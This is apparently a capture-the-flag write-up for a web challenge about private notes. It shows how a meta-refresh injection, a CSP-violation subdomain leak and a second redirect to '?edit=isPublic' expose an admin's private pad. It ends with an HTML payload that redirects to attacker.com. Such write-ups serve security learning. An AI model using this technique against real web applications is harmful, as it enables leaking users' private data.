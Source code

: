 The initial plan is to use csp violations to leak the subdomain. So to do that we have to first redirect the bot to our attacker's website. Since ``.setHTML()`` allows meta tags we can use a meta redirect to our attacker controlled website .

## CSP violation leak 🌟



If we put ``https://xn--pd-viaaa.space/p/latest `` in an iframe and then add a csp with   ``frame-src https://xn--pd-viaaa.space/p/latest `` it will trigger a csp violation , because ``https://xn--pd-viaaa.space/p/latest `` redirects to ``unique_id.xn--pd-viaaa.space`` . 

So using this technique we can leak the unique_id .


## CSRF to make the note public 🌟 
After getting the unique id there is still one more problem to solve. The admins pad is not public, so we can't access it directly due to this check.

```js 
if(!pad.isPublic && req.session.username != pad.username){
        req.flash('danger', 'Not allowed to access this non-public päääd.')
        return res.redirect(`https://${process.env.DOMAIN}`)
    }
```

The code to make the note public is as follows.

```js 
if(req.session.username == pad.username){
        if(req.query.edit=='isPublic'){
            pad.isPublic = !pad.isPublic
            await pad.save()
            return res.redirect(`https://${id}.${process.env.DOMAIN}`)
        }
        if(req.query.edit=='isTemp'){
            pad.createdAt = pad.createdAt ? undefined : new Date()
            await pad.save()
            return res.redirect(`https://${id}.${process.env.DOMAIN}`)
        }
    }
```

So we just have to make the admin send a get request using ?edit=isPublic to make the note public. But unfortunately, the session cookie is having ``sameSite: 'strict'`` . So doing a csrf to make the note public won't work. 

To overcome this we can run the bot twice, the first time to leak the unique_id and the next time with a pad that has a meta redirect to ``unique_id.xn--pd-viaaa.space?edit=isPublic`` to make the note public.

## 🚀  Final Payloads

``First pad``
```html
<!-- redirect to attacker site -->
<meta http-equiv="refresh" content="1; url=https://attacker.com/attacker.html">
```

